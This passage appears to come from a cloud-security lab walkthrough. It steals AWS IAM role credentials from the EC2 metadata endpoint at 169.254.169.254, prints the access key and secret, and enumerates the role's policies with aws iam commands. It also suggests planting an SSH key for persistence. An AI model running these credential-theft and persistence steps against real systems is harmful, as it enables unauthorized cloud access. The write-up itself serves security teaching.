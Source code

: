 > Note: Shell dies immediately so we've to be fast. Or else we can maintain persistence by adding our SSH public key to authorized_keys to gain stable access

We can enumerate the attached role info by issuing below command.

```bash
curl 169.254.169.254/latest/meta-data/iam/info
```

Then enumerate credentials.

```bash
(environment) curl 169.254.169.254/latest/meta-data/iam/security-credentials/CodeStarWorker-crimerecordmgmt-WebApp                                          {
  "Code" : "Success",
  "LastUpdated" : "2022-04-13T02:18:51Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA4NF5TOKM2T4JB7LD",
  "SecretAccessKey" : "DnCChSGIykXxafJhypkRr8DFiwVOwKqC9O9pnD73",
  "Token" : "IQoJb3JpZ2l...",
  "Expiration" : "2022-04-13T08:44:06Z" 
}
```

This role has attached role policy

```bash
aws iam list-attached-role-policies --role-name CodeStarWorker-crimerecordmgmt-WebApp     {                                                                                             "AttachedPolicies": [                                                                         {                                                                                             "PolicyName": "CodeStarBackendPolicy",                                                   "PolicyArn": "arn:aws:iam::852948644505:policy/CodeStarBackendPolicy"                 }                                                                                     ]                                                                                     }
```

This has `CodeStarBackendPolicy` attached. Let's list versions.

```bash
aws iam list-policy-versions --policy-arn arn:aws:iam::852948644505:policy/CodeStarBackendPolicy
{
    "Versions": [
        {
            "VersionId": "v2",
            "IsDefaultVersion": true,
            "CreateDate": "2022-03-28T11:47:34Z"
        }
    ]
}
```

Let's view the policy using `get-policy-version`

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::852948644505:policy/CodeStarBackendPolicy --version-id v2
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": [
                        "ec2:Describe*"
                    ],
                    "Resource": [
                        "*"
                    ],
                    "Effect": "Allow"
```